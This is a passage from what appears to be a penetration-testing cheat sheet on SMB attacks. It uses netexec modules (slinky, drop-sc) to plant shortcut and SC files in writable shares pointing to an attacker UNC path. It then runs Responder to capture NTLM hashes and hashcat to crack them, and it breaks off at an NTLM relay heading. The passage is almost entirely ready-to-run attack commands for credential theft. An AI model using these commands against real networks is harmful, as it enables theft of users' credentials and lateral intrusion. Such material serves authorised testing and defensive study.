 {% tab title="2. Listen" %}
```bash
sudo responder -I tun0
```
{% endtab %}

{% tab title="3. Clean" %}
<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>nxc smb 172.16.10.3 -u user1 -p user1_pass -M slinky -o NAME=README CLEANUP=YES
</strong></code></pre>
{% endtab %}
{% endtabs %}

#### SC

Similar to [LNK](smb-139-445.md#lnk), but the URL needs to be escaped with `\\` and by default it writes the file `Documents` in all writable shares.

{% tabs %}
{% tab title="1. Uploiad SC" %}
{% code overflow="wrap" %}
```bash
nxc smb 172.16.10.3 -u user1 -p user1_pass -M drop-sc -o URL=\\\\2.2.2.2\\secret SHARE=share1 FILENAME=README
```
{% endcode %}
{% endtab %}

{% tab title="2. Listen" %}
```bash
sudo responder -I tun0
```
{% endtab %}

{% tab title="3. Clean" %}
<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>nxc smb 172.16.10.3 -u user1 -p user1_pass -M drop-sc -o CLEANUP=True FILENAME=README
</strong></code></pre>
{% endtab %}
{% endtabs %}

Once a hash is obtained it can be cracked or relayed.

{% tabs %}
{% tab title="Crack" %}
```bash
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou
```
{% endtab %}

{% tab title="Relay" %}
[#ntlm-relay](smb-139-445.md#ntlm-relay "mention")
{% endtab %}
{% endtabs %}

### NTLM Relay
